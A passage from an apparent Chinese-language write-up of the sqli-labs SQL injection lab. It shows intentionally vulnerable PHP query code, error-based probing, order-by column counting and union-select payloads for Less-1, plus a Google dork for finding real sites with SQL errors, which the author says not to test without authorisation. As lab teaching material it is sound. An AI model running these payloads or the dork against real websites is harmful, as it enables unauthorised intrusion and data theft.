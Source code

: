 ```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id = '$id'";
```

id为空时，sql语句变成了
```sql
select * from users where id = '';
```

### 数字型

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id = $id";
```

id为空时，sql语句变成了
```sql
select * from users where id = ;
```

这样页面本身就可能存在报错，可以尝试谷歌语法，收集信息找到这类站点。看看得了，没有授权不要测别人网站

```ini
inurl:"?id=" intext:"You have an error in your SQL syntax" "公司"
```

![2](/medias/sqli-labs/2.png)

## Less-1

get传参 `?id=1'`时页面报错，可以猜测后台sql语句类似

![3](/medias/sqli-labs/3.png)

```sql
$id = $_GET['id'];
$sql = "select * from users where id = '$id'";
```

传进去的单引号闭合了原有sql语句，后面多出一个单引号报错，使用`#`把后面注释掉后面多出的单引号就不会再报错，get传`#`时使用url编码值`%23`，所以传`?id=1%23`时不会报错


有了sql注入点，尝试爆数据库信息，使用联合查询爆数据库信息时，要注意前后select的字段数相同，可以先使用`order by`爆字段数

在3时不报错，4时报错，说明有3个字段
```sql
?id=1' order by 3%23
```
尝试联合查询，2、3是回显位

```sql
?id=0' union select 1,2,3%23
```

![4](/medias/sqli-labs/4.png)

爆数据库名
